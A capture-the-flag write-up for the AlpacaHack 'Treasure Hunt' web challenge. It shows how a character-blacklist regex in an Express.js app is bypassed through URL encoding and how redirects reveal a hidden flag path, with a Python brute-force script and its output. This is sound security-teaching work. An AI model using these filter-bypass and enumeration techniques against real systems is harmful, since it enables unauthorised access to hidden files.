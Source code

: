 # Treasure Hunt

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 71 solves / 116 points
- Author: @ark
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Can you find a treasure?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150730.png)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150816.png)

In here, we can go to different paths, such as `/book`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150900.png)

Which is just a book emoji.

However, if we go to `/alpaca`, it says "Bad URL: /alpaca":

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150953.png)

Hmm... Why is that? Let's read the source code of this web application and figure out why.

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/Treasure-Hunt/treasure-hunt.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:10:58(HKT)]
└> file treasure-hunt.tar.gz 
treasure-hunt.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 51200
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:11:00(HKT)]
└> tar xvzf treasure-hunt.tar.gz 
treasure-hunt/
treasure-hunt/compose.yaml
treasure-hunt/web/
treasure-hunt/web/index.js
treasure-hunt/web/package.json
treasure-hunt/web/package-lock.json
treasure-hunt/web/Dockerfile
treasure-hunt/web/public/
treasure-hunt/web/public/key
[...]
```

After reading the source code, we can find that this is a very simple web application written in JavaScript with Express.js framework.

In `web/Dockerfile`, we can also see that the flag file is in a very weird path:

```bash
# Create flag.txt
RUN echo 'Alpaca{REDACTED}' > ./flag.txt

# Move flag.txt to $FLAG_PATH
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
    && mkdir -p $(dirname $FLAG_PATH) \
    && mv flag.txt $FLAG_PATH
```

Assume the flag's MD5 hash is `3876917cbd1b3db12e39587c66ac2891`, the flag path is something like this:

```
./public/3/8/7/6/9/1/7/c/<snipped_md5_hash_path>/8/9/1/f/l/a/g/t/x/t
```

Hmm... So we'll need to brute force the flag's MD5 hash and get the correct path?

Anyway, why path `/alpaca` will return bad URL?

If we take a look at `web/index.js`, we can see that every requests must go through this [middleware](https://expressjs.com/en/guide/using-middleware.html):

```javascript
app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});
```

In here, if our request's URL path has character `f`, `l`, `a`, or `g`, it'll return HTTP status 400 with data `Bad URL: <our_path>`.

In the above case, path `/alpaca` has character `a`, which matched the regular expression pattern, thus returning bad URL.

Hmm... Wait, will `req.url` automatically perform URL decode? Maybe we can **bypass it via URL encoding**?

Let's log `req.url` and check it out!

```javascript
app.use((req, res, next) => {
  console.log("[DEBUG] req.url", req.url);
  
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});
```

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:27:15(HKT)]
└> cd treasure-hunt 
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt/treasure-hunt)-[2024.12.01|15:27:15(HKT)]
└> docker compose up --build
[...]
Attaching to treasure-hunt-1
```

```http
GET /%61%6c%70%61%63%61 HTTP/1.1
Host: localhost:3000


```

Response:

```http
HTTP/1.1 200 OK
[...]

🦙

```

Log message:

```shell
treasure-hunt-1  | [DEBUG] req.url /%61%6c%70%61%63%61
```

Nope, it doesn't URL decode our path, and we successfully bypassed the filter!

Now, how can we brute force the flag's path?

After some trial and error, it seems like when the requested resource is a directory and missing a forward slash like `/1`, we'll be redirected to the correct path, such as `/1/`:

```http
GET /3 HTTP/1.1
Host: localhost:3000


```

Response:

```http
HTTP/1.1 301 Moved Permanently
[...]
Location: /3/
[...]

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Redirecting</title>
</head>
<body>
<pre>Redirecting to /3/</pre>
</body>
</html>
```

## Exploitation

With that said, we can write a Python script to brute force the correct path and get the flag!

<details><summary><strong>solve.py</strong></summary>

```python
#!/usr/bin/env python3
import http.client
from string import hexdigits

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.connection = http.client.HTTPConnection(self.baseUrl.split('http://')[1])
        self.MD5_CHARACTER_SET = hexdigits
        self.MD5_HEX_LENGTH = 32

    def urlEncodeCharacter(character):
        return f'%{ord(character):x}'
    
    def bruteForceFlag(self):
        flagHash = str()
        finalPath = '/'
        while True:
            for character in self.MD5_CHARACTER_SET:
                if len(flagHash) == self.MD5_HEX_LENGTH:
                    print(f'\n[+] Got flag MD5 hash: {flagHash}')
                    return finalPath

                print(f'[*] Brute forcing character "{character}"', end='\r')
                encodedCharacter = Solver.urlEncodeCharacter(character)
                path = f'/{encodedCharacter}' if finalPath == '/' else f'{finalPath}/{encodedCharacter}'
                self.connection.request("GET", path)
                response = self.connection.getresponse()
                response.read()

                isCorrectCharacter = True if response.status == 301 else False
                if not isCorrectCharacter:
                    continue
                
                finalPath += f'{encodedCharacter}/'
                flagHash += character
                break

    def getFlag(self, flagHashPath):
        finalPath = flagHashPath
        for character in ['f', 'l', 'a', 'g', 't', 'x', 't']:
            encodedCharacter = Solver.urlEncodeCharacter(character)
            finalPath += f'{encodedCharacter}/'

        finalPath = finalPath.rstrip('/')
        print(f'[*] Getting the flag via path: {finalPath}')

        self.connection.request("GET", finalPath)
        response = self.connection.getresponse()
        data = response.read()
        flag = data.decode().strip()
        print(f'[+] Flag: {flag}')

    def solve(self):
        flagHashPath = self.bruteForceFlag()
        self.getFlag(flagHashPath)

if __name__ == '__main__':
    # baseUrl = 'http://localhost:3000' # for local testing
    baseUrl = 'http://34.170.146.252:19843'
    solver = Solver(baseUrl)

    solver.solve()
```

</details>

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|16:15:11(HKT)]
└> python3 solve.py
[*] Brute forcing character "f"
[+] Got flag MD5 hash: 4bafb19a7b66cb415eb070ce1a1b2e8f
[*] Getting the flag via path: /%34/%62/%61/%66/%62/%31/%39/%61/%37/%62/%36/%36/%63/%62/%34/%31/%35/%65/%62/%30/%37/%30/%63/%65/%31/%61/%31/%62/%32/%65/%38/%66/%66/%6c/%61/%67/%74/%78/%74
[+] Flag: Alpaca{alpacapacapacakoshitantan}
```

- **Flag: `Alpaca{alpacapacapacakoshitantan}`**

## Conclusion

What we've learned:

1. Regular expression bypass via URL encoding